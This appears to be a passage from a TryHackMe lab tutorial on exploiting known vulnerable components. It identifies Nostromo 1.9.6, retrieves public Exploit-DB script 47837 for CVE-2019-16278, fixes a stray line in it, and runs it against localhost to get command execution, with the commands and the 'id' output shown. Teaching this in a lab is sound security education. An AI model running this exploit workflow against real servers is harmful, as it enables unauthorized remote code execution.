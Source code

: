 Recall that since this is about known vulnerabilities, most of the work has already been done for us. Our main job is to find out the information of the software and research it until we can find an exploit. Let's go through that with an example web application.

![Nostromo version](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/79310c575c9809b1ac8e8546badb2d34.png)  

_Nostromo 1.9.6_  

What do you know? This server has the default page for the Nostromo web server. Now that we have a version number and a software name, we can use [Exploit-DB](https://www.exploit-db.com/) to try and find an exploit for this particular version.

![Exploit-DB search](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/146fb6d0c48ef46d94f124921da171cc.png)  

Lucky us, the top result happens to be an exploit script. Let's download it and try to get code execution. Running this script on its own teaches us a very important lesson.

Linux

```shell
user@linux$ python 47837.py
Traceback (most recent call last):
  File "47837.py", line 10, in <module>
    cve2019_16278.py
NameError: name 'cve2019_16278' is not defined
```

Exploits you download from the Internet may not work the first time. It helps to understand the programming language the script is in so that, if needed, you can fix any bugs or make any modifications, as quite a few scripts on Exploit-DB expect you to make modifications.

Fortunately, the error was caused by a line that should have been commented out, so it's an easy fix.

```python
# Exploit Title: nostromo 1.9.6 - Remote Code Execution
# Date: 2019-12-31
# Exploit Author: Kr0ff
# Vendor Homepage:
# Software Link: http://www.nazgul.ch/dev/nostromo-1.9.6.tar.gz
# Version: 1.9.6
# Tested on: Debian
# CVE : CVE-2019-16278

cve2019_16278.py  # This line needs to be commented.

#!/usr/bin/env python
```

Fixing that, let's try and run the program again.  

Linux

```shell
user@linux$ python2 47837.py 127.0.0.1 80 id


                                        _____-2019-16278
        _____  _______    ______   _____\    \
   _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       \
|     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  \
| \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/




HTTP/1.1 200 OK
Date: Fri, 03 Feb 2023 04:58:34 GMT
Server: nostromo 1.9.6
Connection: close

uid=1001(_nostromo) gid=1001(_nostromo) groups=1001(_nostromo)
```

Boom! We have RCE. Now it's important to note that most scripts will tell you what arguments you need to provide. Exploit developers will rarely make you read potentially hundreds of lines of code just to figure out how to use the script.  

It is also worth noting that it may not always be this easy. Sometimes you will just be given a version number, like in this case, but other times you may need to dig through the HTML source or even take a lucky guess on an exploit script. But realistically, if it is a known vulnerability, there's probably a way to discover what version the application is running.  

That's really it. The great thing about this piece of the OWASP Top 10 is that the work is already done for us, we just need to do some basic research, and as a penetration tester, you're already doing that quite a bit.